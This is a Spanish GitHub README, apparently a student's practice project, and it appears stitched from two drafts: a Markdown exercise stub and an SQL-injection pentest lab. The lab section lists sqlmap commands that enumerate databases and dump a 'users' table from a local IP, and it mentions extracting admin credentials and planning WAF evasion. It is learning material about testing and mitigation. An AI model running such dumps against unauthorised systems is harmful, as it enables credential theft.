


# Laboratorio README
 
Proyecto de práctica para aprender Markdown avanzado en GitHub.
 
## Descripción
 
Este repositorio documenta paso a paso mi aprendizaje de Markdown:
tablas, listas de tareas, badges y diagramas.

## Estado de funcionalidades

 
| Función | Estado |
| :--- | :--- |
| Login | Listo |
| Reporte | En proceso |

## Pendientes
 
- [x] Diseño de la base de datos
- [ ] Pruebas unitarias


## Arquitectura
 

---

# SQL Injection Pentes Lab

[![Estado del Proyecto]](https://github.com)
[![Categoría]](https://owasp.org)

Entorno de pruebas controlado para la evaluación de vulnerabilidades de inyección SQL (SQLi). El proyecto documenta la detección de parámetros vulnerables, la explotación para la extracción de bases de datos y los métodos de mitigación correspondientes.

---
# Tabla de Contenidos

1. [Requisitos e Instalación](#-requisitos-e-instalación)
2. [Instrucciones de Uso](#-instrucciones-de-uso)
3. [Estado de Funcionalidades](#-estado-de-funcionalidades)
4. [Lista de Tareas Pendientes](#-lista-de-tareas-pendientes)
5. [Arquitectura del Proyecto](#-arquitectura-del-proyecto)
6. [Contribuidores](#-contribuidores)

---
## xxxx|Requisitos e Instalación

Para desplegar este laboratorio en Linux (Kali Linux / Ubuntu), ejecuta los siguientes comandos:
```Bash 
# Actualizar los repositorios del sistema
sudo apt update && sudo apt upgrade -Y

# Instalación sqlmap para la automatización de auditorias SQL
sudo apt install sqlmap -y
```
---

## Instrucciones de uso

Ejecución de auditorías sobre los parámetros web vulnerables dentro del laboratorio:

```bash
# 1. Escaneo básico y detección de bases de datos disponibles
sqlmap -u "http://192.168.1" --dbs --batch

# 2. Extracción de tablas de una base de datos específica (ej. 'users')
sqlmap -u "http://192.168.1" -D app_db -T users --dump
```

---

## Estado de Funcionalidades

| Función | Tipo de Inyección | Estado |
| :--- | :---: | :---: |
|  Inyección basada en errores (Error-based) | Directa | 🟩 **Listo** |
|  Inyección basada en tiempo (Time-based Blind) | Ciega | 🟩 **Listo** |
|  Implementación de consultas preparadas (PDO) | Mitigación | 🟨 *En proceso* |

---

## Lista de Tareas Pendientes

- [x] Configurar el contenedor Docker local con el panel web vulnerable.
- [x] Extraer las credenciales administrativas mediante técnicas de SQLi.
- [ ] Implementar un Web Application Firewall (WAF) para evaluar la evasión de payloads.

---

## Arquitectura del Proyecto

Flujo de la auditoría y ejecución de consultas maliciosas representado en un diagrama de secuencia de [Mermaid](https://js.org):



---

## Contribuidores

* **Nombre:** Jhordy Egoavil
* **GitHub:** [@jhordyegoavil-boop](https://github.com)
Usa el código con precaución.